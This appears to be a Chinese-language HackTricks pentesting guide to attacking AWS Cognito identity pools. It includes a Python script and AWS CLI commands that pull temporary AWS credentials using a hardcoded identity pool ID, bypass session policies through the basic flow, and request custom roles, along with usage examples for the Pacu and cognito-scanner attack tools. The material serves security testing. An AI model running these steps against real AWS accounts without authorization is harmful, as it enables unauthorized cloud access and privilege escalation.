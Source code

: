 # Cognito 身份池

<details>

<summary><strong>从零到英雄学习AWS黑客攻击</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **以PDF格式下载HackTricks** 请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现 [**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上 **关注** 我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

通过身份池，您的用户可以 **获取临时AWS凭证以访问AWS服务**，例如Amazon S3和DynamoDB。身份池支持匿名访客用户，以及以下您可以用来为身份池认证用户的身份提供者：

* Amazon Cognito用户池
* 使用Facebook、Google、Login with Amazon和Sign in with Apple的社交登录
* OpenID Connect (OIDC) 提供者
* SAML身份提供者
* 开发者认证的身份

### Cognito 同步

要生成身份池会话，您首先需要 **生成一个身份ID**。这个身份ID是 **该用户会话的标识**。这些标识可以有多达20个数据集，可以存储多达1MB的键值对。

这对于 **保持用户信息**（他们将始终使用相同的身份ID）非常有用。

此外，服务 **cognito-sync** 是允许 **管理和同步这些信息**（在数据集中，发送信息流和SNS消息等）的服务。

### 渗透测试工具

* [Pacu](https://github.com/RhinoSecurityLabs/pacu)，AWS利用框架，现在包括 "cognito\_\_enum" 和 "cognito\_\_attack" 模块，这些模块自动枚举账户中的所有Cognito资产并标记弱配置、用于访问控制的用户属性等，并且还自动化用户创建（包括MFA支持）和基于可修改的自定义属性、可用的身份池凭证、可假设的id令牌中的角色等进行权限提升。

有关模块功能的描述，请参阅 [博客文章](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2)的第2部分。有关安装说明，请参阅主要的 [Pacu](https://github.com/RhinoSecurityLabs/pacu) 页面。

#### 使用方法

尝试针对给定身份池和用户池客户端创建用户和所有权限提升向量的示例 cognito\_\_attack 使用方法：
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
```markdown
示例 cognito__enum 用法，用于收集当前 AWS 账户中可见的所有用户池、用户池客户端、身份池、用户等信息：
```
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) 是一个用 Python 编写的 CLI 工具，它实现了对 Cognito 的不同攻击，包括不必要的账户创建和身份池升级。

#### 安装
```bash
$ pip install cognito-scanner
```
#### 使用方法
```bash
$ cognito-scanner --help
```
有关更多信息，请查看 https://github.com/padok-team/cognito-scanner

## 访问 IAM 角色

### 未经认证

攻击者作为未经认证的用户在 Cognito 应用中**获取 AWS 凭证**所需知道的唯一信息是**身份池 ID**，而且这个**ID 必须硬编码**在 web/移动**应用程序**中才能使用。一个 ID 看起来像这样：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（它不可被暴力破解）。

{% hint style="success" %}
默认情况下，通过创建的**IAM Cognito 未经认证角色称为** `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

如果你找到了一个硬编码的身份池 ID，并且它允许未经认证的用户，你可以用以下方式获取 AWS 凭证：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
或者您可以使用以下的 **aws cli 命令**：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
请注意，默认情况下，未经认证的 Cognito **用户即使通过策略分配了权限，也不会有任何权限**。请检查下一节。
{% endhint %}

### 增强型与基础型认证流程

前一节介绍了**默认的增强型认证流程**。该流程为生成的 IAM 角色会话设置了一个**限制性的**[**会话策略**](../../aws-basic-information/#session-policies)，该策略只允许会话[**使用此列表中的服务**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（即使角色可以访问其他服务）。

然而，如果**身份池启用了“基础（经典）流程”**，用户将能够使用该流程获取会话，而**不会有那种限制性会话策略**。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
如果您收到此**错误**，那是因为**基本流程未启用（默认）**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

拥有一组IAM凭证后，您应该检查[您拥有哪些访问权限](../../#whoami)并尝试[提升权限](../../aws-privilege-escalation/)。

### 已认证

{% hint style="info" %}
请记住，**已认证用户**可能会被授予**不同的权限**，所以如果您可以**在应用程序内注册**，尝试这样做并获取新的凭证。
{% endhint %}

对于**已认证用户访问身份池**也可能有**角色**可用。

对此，您可能需要访问**身份提供者**。如果是**Cognito 用户池**，也许您可以利用默认行为**自己创建一个新用户**。

{% hint style="success" %}
通过**IAM Cognito 认证角色创建默认称为** `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

无论如何，**以下示例**假设您已经在用于访问身份池的**Cognito 用户池**内登录（不要忘记还可以配置其他类型的身份提供者）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 从上一个命令响应中获取 identity_id
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# 在 IdToken 中您可以找到用户因用户池组而能访问的角色
# 使用 --custom-role-arn 获取特定角色的凭证
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
可以**根据用户登录的身份提供者配置不同的IAM角色**，甚至仅仅**根据用户**（使用声明）。因此，如果您可以通过相同或不同的提供者访问不同的用户，登录并访问他们所有人的IAM角色可能**值得一试**。
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零到英雄学习AWS黑客攻击！</strong></summary>

其他支持HackTricks的方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
